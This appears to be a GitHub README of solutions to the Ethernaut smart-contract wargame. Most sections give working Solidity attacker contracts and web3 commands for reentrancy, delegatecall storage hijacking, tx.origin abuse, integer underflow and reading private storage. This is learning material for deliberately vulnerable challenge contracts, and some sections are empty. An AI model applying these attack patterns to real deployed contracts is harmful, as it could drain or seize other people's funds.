

# Ethernaut Solutions
## Introduction
This repository contains all the solution I used to complete the Ethernaut challenges.

:warning: Please do not copy/paste this content to complete Ethernaut challenges. Take time to understand the challenges! :warning:

## Hello Ethernaut
First deploy the contract by clicking "Get new instance".
Then, look at the contract.abi to get smart contract functions.
Call the password() view function, and pass the returned result as parameter to the authenticate() function.

## Fallback
By reading the code, we can identify that the receive() function should be called to get contract ownership. But we need to contribute before calling the receive function (or the call will fail).

So, we need to :
 1. call contribute with less than 0.001 ether as value
 2. call the receive function (by sending some ether)
 3. call the withdraw function

```
contract.contribute({value: toWei("0.001")});
contract.send({value: toWei("0.001")});
contract.withdraw();
```

## Fallout
The function Fal1out() allows the sender to become the owner of the contract. It is a typographical error, and the comment let us think that it is the constructor function.
But since Solidity v0.5.0, the "constructor" function is used instead of the name of the contract.


## Coin Flip


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool) external returns (bool);
}

contract CoinAttack {

  address coinContract;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _coinContract) {
    coinContract = _coinContract;
  }

  function attackFlip() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    CoinFlip(coinContract).flip(side);
  }
}
```


## Telephone
The contract require that tx.origin != msg.sender to change owner. This can be easily done using a smart contract to call this function.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttack {

  address TelephoneContract;

  constructor(address _TelephoneContract) {
    TelephoneContract = _TelephoneContract;
  }

  function attackTel() public {
    Telephone(TelephoneContract).changeOwner(msg.sender);
  }
}
```


## Token
The token contract is vulnerable to an integer underflow. If we have 20 tokens, we can ask to send 21 tokens. Our balance would be -1 if it was a signed integer. As it is unsigned, -1 corresponds to the larger number allowed by the uint256 format.

```
contract.transfer("0x001FF67607F7B569450A93F900B3a366d74cA263", "21")
```

## Delegation
The objective is to gain ownership of the Delegation contract. To do so, we can exploit the delegatecall. The official Solidity documentation says : 
```
"There exists a special variant of a message call, named delegatecall which is identical to a message call apart from the fact that the code at the target address is executed in the context (i.e. at the address) of the calling contract and msg.sender and msg.value do not change their values."
```
So we can call the pwn function from Delegate contract, but in the context of the Delegation contract. This allows us to take ownership of the contract.

```
contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature({name: 'pwn', type: 'function', inputs: []})});
```


## Force
The goal is to make the balance of the contract greater than zero. To do so, we will use the selfdestruct of another contract to make the balance non-zero.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract ForceAttack {

  constructor() {
  }

  function attack(address payable vulnerableContract) public payable {
    selfdestruct(vulnerableContract);
  }
}
```

## Vault
Even if a variable is private, all the datas are public in Ethereum. So we can read the private password and unlock the contract.

```
contract.unlock(await web3.eth.getStorageAt("0x816045E270e6C9539BB35118a7B37c44915aa863", 1))
```

## King
This contract does send the prize to the king of the contract. If the king is a smart contract that revert when it receives funds, the king will never change.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract KingAttack {

  constructor(address payable vulnKing) payable {
      vulnKing.call{value: 1500000000000000 wei}("");
  }

  receive() external payable {
      revert();
  }
}
```

## Re-entrancy
On this contract, the vulnerability is that the withdraw function does send the funds before getting the balance updated. Using an attacker smart contract, a re-entrancy attack is possible.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}


contract ReentranceAttack {

  address payable vulnContract;
  bool status = false;

  constructor(address payable _vulnContract) payable {
      vulnContract = _vulnContract;
      Reentrance(vulnContract).donate{value: msg.value}(address(this));
  }

  function startAttack() external {
      Reentrance(vulnContract).withdraw(0.001 ether);
  }

  receive() external payable {
      if (status == false) {
        status = true;
        Reentrance(vulnContract).withdraw(0.001 ether);
      }
  }
}
```

## Elevator
Here, the objective is to set the top variable to true. To do so, it calls the msg.sender to know if top is true or false. We have to develop a smart contract with a isLastFloor() function that returns false during the first call, then true to the second call.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint) external;
}

contract Building {
  bool status = false;

  function startAttack(address vulnContract) external {
      Elevator(vulnContract).goTo(10);
  }

  function isLastFloor(uint _floor) external returns (bool) {
      if (status == false) {
          status = true;
          return false;
      } else {
          return true;
      }
  }
}
```

# Privacy
The objective is to unlock the contract. We need to know the key to do this.
Reading the storage of the smart contract will be done using web3.eth.getStorageAt(). We need to deeply understand how smart contracts store data to find the result.
Here is a picture that explains what data should be read :




2a55cde6341c0d09f3497cb9a8e6492e


## Naught Coin
This contract locks the transfer function for 10 years. But it is possible to use the approve() and transferFrom() to transfer funds.

```
contract.approve(_spenderAddress, await contract.totalSupply())
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ERC20 {
    function allowance(address _owner, address _spender) external view returns (uint256 remaining);
    function transferFrom(address _from, address _to, uint256 _value) external returns (bool success);
}


contract NaughtAttack {

  function attack(address vulnCoin) public {
      uint256 amount = ERC20(vulnCoin).allowance(msg.sender, address(this));
      ERC20(vulnCoin).transferFrom(msg.sender, address(this), amount);
  }
}
```

## Preservation
We are going to exploit delegatecall(). First, we can see that the LibraryContract does modify the first storage slot, which is the address of the library in the context of the vulnerable contract. So, we are able to modify this address to set it to an attacker contract. Our attacker contract will modify the third slot, to modify the owner address.

```
// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;
  uint tmp2;
  uint maliciousAddress;

  function setTime(uint _time) public {
    maliciousAddress = uint256(uint160(0xA86E1A2daA9B2F79E06FB6cc4624C39CC3Db6F56));
  }
}
```
Launch the function two time, the first execution will set the library address to the attacker contract. The second one will modify the owner.
```
contract.setFirstTime("0x32E1e47BC0D8Dd96aaf1EdA95ffE3eC55c0892E9")
contract.setFirstTime("0x32E1e47BC0D8Dd96aaf1EdA95ffE3eC55c0892E9")
```


## Recovery
TODO


## Magic Number

## Alien Codex

## Denial


## Shop
Here the vulnerable contract calls the Buyer 2 times. It is simple. For first call, the price() function returned value will be 100, the second time it will be < 100.
The attacker contract is:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}

contract attackShop {
    address targetContract = 0x13E373631700b449AD8D048a8feB2404c850d233;

    function price() external view returns (uint256) {
        uint256 result = 0;
        Shop(msg.sender).isSold() ? result = 10 : result = 100;
        return result;
    }

    function attack() external {
        Shop(targetContract).buy();

    }
}
```


## Others

Read a smart contract storage :
```
web3.eth.getStorageAt("0x7148b422bCB483FC00057F088e8E6fDA9e7F1Fb5", 0)
```


